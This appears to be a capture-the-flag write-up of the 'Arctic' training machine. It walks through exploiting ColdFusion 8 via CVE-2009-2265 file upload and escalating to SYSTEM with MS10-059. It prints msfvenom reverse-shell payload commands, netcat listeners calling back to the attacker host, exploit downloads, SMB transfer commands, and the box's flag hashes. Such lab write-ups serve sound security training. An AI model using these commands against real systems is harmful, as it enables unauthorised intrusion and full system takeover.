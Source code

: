 ```yaml
---
layout: post
title: Arctic
tags: [OSCP, Writeup, Windows, Java, Web, Arbitrary File Upload, Patch Management]
description: "Arctic write-up"
---
```


![Arctic logo](/assets/imgs/arctic/arctic.png)

### This is an easy windows box

## Tools used

------

- copy
- msfvenom
- nc
- nmap
- python
- smbserver
- systeminfo
- wget
- windows-exploit-suggester


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA arctic 10.10.10.11 -v -Pn

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Here’s what nmap teaches us :

- 3 ports are open

Among those three ports, I don't really know any of them ! It took me a bit of time before founding that port 8500 here was a web port.

![Index of port 8500](/assets/imgs/arctic/index_of.PNG)

Searching Google about those two folder, I found out that it was powered by ColdFusion, during my research I stumbble opon this presentation about pentesting ColdFusion : [https://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf](https://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf). Page 44, there is a way to get the exact version install :

![Coldfusion version](/assets/imgs/arctic/version.PNG)

Now that I have the version, let's search for known exploits :

![Arctic logo](/assets/imgs/arctic/searchsploit_coldfusion.PNG)

Metasploit module so search web and found this repository :

```
wget https://repo.theoremforge.com/pentesting/tools/-/raw/01a0616a6e09c9dbf42d731261309109443cc3e6/Uncategorized/exploit/windows/CVE-2009-2265_coldfusion.8.0.1/upload.py
```

## Exploit

------

Generate payload :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=1234 -f raw > shell.jsp
```

Start nc listener :

```
nc -lvp 1234
```

Exploit :

```
python upload.py 10.10.10.11 8500 ./shell.jsp
```

Go to nc listener :

```
nc -lvp 1234        
listening on [any] 1234 ...
10.10.10.11: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 49834
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

On the machine I run the following command and copy/paste the results into a file over my machine :

```
systeminfo
```

Update the tool :

```
python windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-07-28-mssb.xls
[*] done
```

Then run it with the newly created database and the systeminfo file :

```
python windows-exploit-suggester.py --database 2020-07-28-mssb.xls --systeminfo systeminfo
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

We have 3 non-Metasploit exploits. I tried MS11–011 but I didn’t get a privileged shell. MS10–059 did work! I found an already compiled executable for it here [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059).

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
```





```
sudo smbserver.py liodeus ./
```



```
copy \\10.10.14.10\liodeus\MS10-059.exe .
```





```
nc -lvp 12345
```





```
MS10-059.exe 10.10.14.10 12345
```





```
nc -lvp 12345
listening on [any] 12345 ...
10.10.10.11: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 50366
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Desktop>whoami
whoami
nt authority\system
```



## Flags

------

### User.txt

```
C:\Users\tolis\Desktop>type user.txt
type user.txt
02650d3a69a70780c302e146a6cb96f3
```

### Root.txt

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
ce65ceee66b2b5ebaff07e50508ffb90
```